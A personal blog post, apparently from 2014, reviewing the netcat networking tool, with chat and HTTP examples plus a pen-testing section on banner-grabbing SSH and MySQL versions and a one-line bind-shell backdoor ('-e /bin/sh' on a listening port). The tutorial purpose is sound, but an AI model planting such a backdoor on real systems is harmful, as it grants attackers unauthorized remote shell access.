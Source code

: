 ```yaml
---
layout: post
date: 2014-03-05
title: Netcat Refresher
categories: hacking reference linux sysadmin
---
```


*Quick overview of the legendary Unix tool, netcat, with examples and applications*

## Introduction

[Netcat](https://en.wikipedia.org/wiki/Netcat) is a great tool for all things networking and is commonly nicknamed "the TCP/IP Swiss-army knife" due to its versatility and utility. An absolute must-know for sysadmins and hackers. In this article, I'll go over a few common uses I have for it that I frequently forget after not using it for a while, primarily for my own personal reference.

Before I begin, I should point out that there are a few variants on netcat that have slightly different options and behaviors but are all essentially the same in "spirit and functionality", as the [ncat](http://nmap.org/ncat/) man page describes it.

The original netcat comes from the OpenBSD package and was written by "Hobbit". This is the default version that comes with OS X and Ubuntu. The version that I use and will cover is the standard GNU Netcat, by Giovanni Giacobbi, which is a rewrite of the original. This available using [brew](http://brew.sh) on OS X. On Ubuntu it's called "netcat-traditional" which you can `apt-get` and then run with `nc.traditional`. Lastly, there is [ncat](http://nmap.org/ncat), which is a netcat implementation by our friends from the [nmap](http://nmap.org) team. It is designed to modernize netcat and adds features like SSL, IPv6, and proxying which aren't available in the original(s).

## Usage

At its core, netcat is a tool for creating arbitrary TCP connections, which looks like

    $ netcat [host] [port]

where host is either an IP Address or a domain name, and port is the TCP port to connect to.

You can also use netcat to do the reverse: listen for arbitrary TCP connections. This looks like

    $ netcat -l -p [port] [host]

Here, host is an optional parameter which lets you limit what host can create connections.

#### Example: Chat

Using these two behaviors, we can create a crude chat system. One one host, listen for connections on a port.

    $ netcat -l -p 1337

On the same one, in another terminal, connect to it on that port.

    $ nc localhost 1337

There won't be a prompt, but when you enter text and press enter, it will appear in the other terminal. You can just as easily do this between different hosts and have a super basic chat setup.

![](https://draftin.com:443/images/12181?token=V4hz4Qtwi_uM_-4ulkErwUudxL_qY8D2yxx-fPjLSffSc8-FV0FOVRlvd4psBi-fLricHlJLjufBWr6E91R_spQ) 

### Example: Curl-like behavior

You can also use netcat to emulate curl and interact with HTTP servers. Connect to the server on port 80 (or whatever port it's running on) and you can then type out the HTTP request to send to it. When you're finished, hit enter twice and it will send.

    [mark:~]{ nc example.org 80
    GET / HTTP/1.1

    HTTP/1.1 400 Bad Request
    Content-Type: text/html
    Content-Length: 349
    Connection: close
    Date: Wed, 05 Mar 2014 20:15:42 GMT
    Server: ECSF (mdw/1383)

    <?xml version="1.0" encoding="iso-8859-1"?>
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
    <head>
    <title>400 - Bad Request</title>
    </head>
    <body>
    <h1>400 - Bad Request</h1>
    </body>
    </html>

As you can see here, we sent a bare-bones HTTP request (`GET / HTTP/1.1`) which was successfully sent to the server. The server responded with a 400, because our request didn't contain enough information, but that's not important; if we had filled in the right headers, it would have responded with the home page for example.org.

## For Hackers

There are two applications for netcat that I find particularly useful in pen-testing situations.

### Recon

The first is helpful for the recon stage, which is essentially getting information on your target. Sometimes network services may give away version information when an arbitrary network connection is made. For example, OpenSSH by default gives away it's version information as well as information on the host, when you connect. For example,

    $ netcat 1.2.3.4 22
    SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.1

is typically what you might see. For an attacker, this is pretty valuable stuff! MySQL behaves similarly.

    $ netcat 1.2.3.4 3306
    J
    5.5.33-.?2|>\8��@x\E$"zeic2lmysql_native_password

The output isn't as clear as OpenSSH, but we can confirm that MySQL is indeed running, and we can infer that the version is "5.5.33". For information on removing these banners, check out my [blog post](http://blog.mark.lc/banner) on it.

### Persistence/Access

The other application is when you have achieved command execution, but not exactly shell access. You can use netcat to create a nifty backdoor which you can externally connect to. To create the backdoor, we'll use the `-e` flag to tell netcat to execute a binary on receiving a connection. We want a shell, so we'll say `-e /bin/sh`. The whole command will look like:

    $ netcat -l -p 1337 -e /bin/sh

which will give you a backdoor on port 1337, which will then let you run commands upon connecting to that port. For a good example, check out my other [blog post](http://blog.mark.lc/ihackedit) where I actually used this.

## Conclusion

That was a quick overview of netcat including its basic functionality and some example use cases. Thanks for reading!
